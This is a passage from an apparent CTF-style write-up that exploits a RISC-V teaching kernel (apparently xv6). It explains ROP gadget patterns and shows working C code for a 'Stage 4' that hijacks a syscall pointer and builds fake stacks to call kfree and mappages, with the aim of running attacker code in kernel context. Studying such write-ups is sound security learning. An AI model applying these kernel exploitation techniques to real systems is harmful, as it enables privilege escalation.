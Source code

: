     [...]
{{< /code >}}

This will result in a call to `memcpy(dst=proc+720, src=controlled address, size=controlled size)`, and then return to userland.

### ~~Road~~ Rop to mappages

It's worth noting is that in RISC-V, the return address isn't popped from the stack by the `ret` instruction; instead, it simply jumps to the address contained in the register _ra_. Also, there are no gadgets that will directly pop into _a0_ and company. Instead, the arguments of a function are usually loaded from the stack into registers _s0_ to _s11_, and their values are then moved into the function argument registers *a0*-*a7*. Using the address _0x0000000080001454_ as an example, the usual call pattern is as follows:

{{< code language="assembly" title="Function call pattern" id="10" expand="Show" collapse="Hide" isCollapsed="false" >}}
0x0000000080001454 <+72>:    mv      a4,s6
0x0000000080001456 <+74>:    mv      a3,s1
0x0000000080001458 <+76>:    lui     a2,0x1
0x000000008000145a <+78>:    mv      a1,s2
0x000000008000145c <+80>:    mv      a0,s5
0x000000008000145e <+82>:    auipc   ra,0x0
0x0000000080001462 <+86>:    jalr    -988(ra) # 0x80001082 <walkaddr+64>
{{< /code >}}

In this case, the last two instructions make relative jumps to the `mappages` function.

The two goals of my ROP chain are:
1. Restore the `kmem.freelist` pointer to a valid value (In hindsight, it seems unnecessary).
2. Map the physical page containing the `pwn` function of the exploit to an unmapped space in the kernel page table to obtain a virtual executable page containing its code.
3. Jump into the `pwn` function from kernel context.

I found out the address where the binary was loaded by breaking on the `loadseg` symbol before executing the `exe` file.

Here is the relevant part of the exploit:

{{< code language="c" title="Stage 4" id="11" expand="Show" collapse="Hide" isCollapsed="false" >}}
#define PTE_R (1L << 1)
#define PTE_X (1L << 3)

void process1()
{
	[...]
    
    printf("%s", "[*] Stage 4: Ropping to mappages\n");

    *victim_syscall = 0x0000000080003ac2; // (writei+238) ld ra, 104(sp), ld s0, 96(sp) ... addi sp, sp, 112, ret

    uint64 *stack1 = (uint64 *)((void *)t2[aw_page] + 0x310 + 104);
    *stack1 = (uint64)0x000000008000150c; // call to kfree
    *(stack1 - 5) = 0x0000000087F03000;   // random page to free

    uint64 *stack2 = (uint64 *)((void *)t2[aw_page] + 0x380 + 40);
    *stack2 = (uint64)0x000000008000150c; // call to kfree
    *(stack2 - 5) = 0x0000000087F02000;   // random page to free
